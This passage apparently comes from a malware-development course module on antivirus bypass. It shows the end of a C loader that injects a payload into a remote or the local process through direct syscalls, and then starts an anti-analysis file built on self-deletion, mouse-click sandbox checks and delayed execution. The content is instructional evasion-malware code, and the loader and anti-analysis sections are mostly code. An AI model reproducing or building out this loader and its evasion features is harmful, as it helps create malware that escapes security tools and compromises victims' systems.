 ```c
	printf("[+] Target Process Id Detected Of PID : %d \n", dwProcessId);

	if (!RemoteMappingInjectionViaSyscalls(hProcess, Payload, sizeof(Payload), FALSE)) {
		printf("[!] Failed To Inject Payload \n");
		return -1;
	}


#endif // TARGET_PROCESS



#ifndef TARGET_PROCESS

	if (!RemoteMappingInjectionViaSyscalls((HANDLE)-1, Payload, sizeof(Payload), TRUE)) {
		printf("[!] Failed To Inject Payload \n");
		return -1;
	}

#endif // !TARGET_POCESS


	return 0;
}

```

### Loader Results

#### Remote Code Injection

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-216782299-f2e9c796-2d79-42e9-b69d-6e4277f531f4.png)![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-316782324-aafb32f5-4fec-40e0-bbb3-029ead10c99d.png)

#### Local Code Injection

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-416782441-c87f902c-af70-4657-ad39-93d2f977673b.png)![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-516782392-ec8ace35-58fe-4ac6-8317-9d553123076b.png)

### Anti-Analysis Features

To add anti-analysis features create a new file called `AntiAnalysis.c`. This file will contain the following functionality:

- Self-deletion function from the _Anti-Debugging - Self-Deletion_ module.
    
- Mouse clicks monitoring feature from the _Anti-Virtual Environments - Multiple Techniques_ module
    
- A function to delay execution using `NtDelayExecution` from the _Anti-Virtual Environments - Multiple Delay Execution Techniques_ module
    

**AntiAnalysis.c**

```c
#include <Windows.h>
#include <stdio.h>

#include "Structs.h"
#include "Common.h"


// Global hook handle variable
HHOOK g_hMouseHook = NULL;
// global mouse clicks counter
DWORD g_dwMouseClicks = NULL;


```